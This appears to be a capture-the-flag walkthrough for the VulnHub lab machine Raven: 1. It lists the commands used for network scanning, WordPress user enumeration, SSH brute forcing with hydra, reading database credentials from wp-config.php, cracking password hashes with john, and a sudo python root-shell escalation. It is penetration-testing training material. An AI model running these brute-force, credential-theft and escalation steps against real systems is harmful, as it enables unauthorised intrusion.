:::::::::::::::::::::::::::::::: page
# Raven: 1 {#raven-1 .title}

\

## 

## Raven: 1

- **[Raven: 1]{style="color:#ffbe6f;"}** :-

<!-- -->

- Download the machine : <https://www.vulnhub.com/entry/raven-1,256/>



- Open ova file .
- Then click finish .
- Start the machine .

1.  [Network Scanning]{style="color:#ff7800;"} :

- Find the machine IP :

::: codebox
    nmap -sn 192.168.2.0/24
:::



- Run nmap master command :

::: codebox
    nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.170
:::



- Find available port in the machine ( Optional ) :

::: codebox
    nmap -v -p- 192.168.2.170
:::

- 

::: codebox
    nmap -sC -sV -A 192.168.2.170 
:::

- This command runs an aggressive scan and uses the http-enum script to
  identify potential CGI directories .

::: codebox
    nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.170
:::

1.  [Web Enumeration]{style="color:#ff7800;"} :

- IP visit in browser : <http://192.168.2.170/>
  <http://192.168.2.170/wordpress/>
  <http://192.168.2.170/wordpress/wp-login.php>
  <http://192.168.2.170/vendor/>

<!-- -->

- Add hostname in /etc/hosts :

::: codebox
    echo "192.168.2.170 raven.local" >> /etc/hosts
:::



- Find username with wpscan cpmmand :

::: codebox
    wpscan --url http://192.168.2.170/wordpress --enumerate u --wp-content-dir wp-content
:::



- Found User\'s :

::: codebox
    michael
    steven
:::

1.  [SSH Access]{style="color:#ff7800;"} :

- SSH brute force to find password :

::: codebox
    hydra -l michael -P /opt/rockyou.txt ssh://192.168.2.170
:::



- SSH Login :

::: codebox
    ssh michael@192.168.2.170
:::



- Navigate the directory and check the lists :

::: codebox
    cd /var/www
:::

- 

::: codebox
    ls
:::

- Read the flag file :

::: codebox
    cat flag2.txt
:::



- Now navigate the wordpress directory :

::: codebox
    cd /var/www/html/wordpress
:::

- 

::: codebox
    ls
:::



- Read the wp-config.php file :

::: codebox
    cat wp-config.php
:::



- Found database username and password :

::: codebox
    Username : root
    Password : R@v3nSecurity
:::

- Now login mysql :

::: codebox
    mysql -u root -pR@v3nSecurity
:::



- In database dump the data :

::: codebox
    show databases;
:::

- 

::: codebox
    use wordpress;
:::

- 

::: codebox
    show tables;
:::

- 

::: codebox
    select * from wp_users;
:::



- Hash identify :

::: codebox
    hash-identifier
:::



- Crack the hashes :

::: codebox
    nano hashes.txt
:::



::: codebox
    john --show --format=phpass hashes.txt
:::



- Switch the steven user :

::: codebox
    su steven
:::

- 

::: codebox
    Password : pink84
:::



1.  [Privilege Escalation]{style="color:#ff7800;"} :

- Check the sudo permissions :

::: codebox
    sudo -l
:::

 steven user Python ko root ke roop me bina
password use kr skta h .

- Get the root shell :

::: codebox
    sudo python -c 'import os; os.system("/bin/bash")'
:::


::::::::::::::::::::::::::::::::
